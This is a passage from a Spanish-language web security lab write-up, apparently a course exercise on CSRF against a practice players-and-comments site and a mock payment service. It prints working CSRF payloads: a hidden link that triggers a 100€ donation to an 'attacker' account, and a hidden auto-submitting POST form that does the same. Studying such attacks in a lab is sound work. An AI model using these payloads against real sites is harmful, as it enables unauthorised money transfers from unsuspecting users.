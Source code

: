 **Autenticación y control de acceso**

Implementar autenticación de múltiples factores y limitar el acceso a herramientas de administración mediante listas blancas de IP o VPN asegura que solo los usuarios autorizados puedan realizar cambios críticos en el servidor.

<br>
<br>

# Parte 5. CSRF

A) Editad un jugador para conseguir que, en el listado de jugadores **list_players.php** aparezca, debajo del nombre de su equipo y antes de **show/add** comments un botón llamado *Profile* que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.

| **En el campo…** | **URL a insertar** - http://web.pagos/donate.php?amount=100&receiver=attacker |
| :---- | :---- |
| **Introduzco…** | Un formulario con un botón llamado "Profile" que redirige a la URL maliciosa al hacer clic. |

B) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que el usuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (**show_comments.php**).

Podemos **inyectar** un enlace malicioso en un comentario que se cargue automáticamente cuando los usuarios visiten la página de comentarios. El enlace puede ser invisible para ellos y redirigir a la página de donación con los parámetros de ataque. **Ejemplo**:

   ```html
<a href="http://web.pagos/donate.php?amount=100&receiver=attacker" style="display:none;">Profile</a>
```

C) Pero web.pagos sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.

La **donación** solo se realiza si el usuario está registrado en la plataforma de pagos. El sistema necesita deducir los 100€ de la cuenta de un usuario para poder asignarlos al atacante.

D) Si web.pagos modifica la página **donate.php** para que reciba los parámetros a través de **POST**, ¿quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “*amount*” i “*receiver*” por **POST**.

No, si se usa un formulario con método POST, el ataque seguiría siendo posible. Aunque los parámetros no estén en la URL, podríamos enviar los datos a través de un formulario oculto, que se enviaría automáticamente al cargar la página. **Ejemplo**:

   ```html
<form action="http://web.pagos/donate.php" method="POST" style="display:none;">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="attacker">
    <input type="submit">
</form>
<script>
    document.forms[0].submit();
</script>
``` 
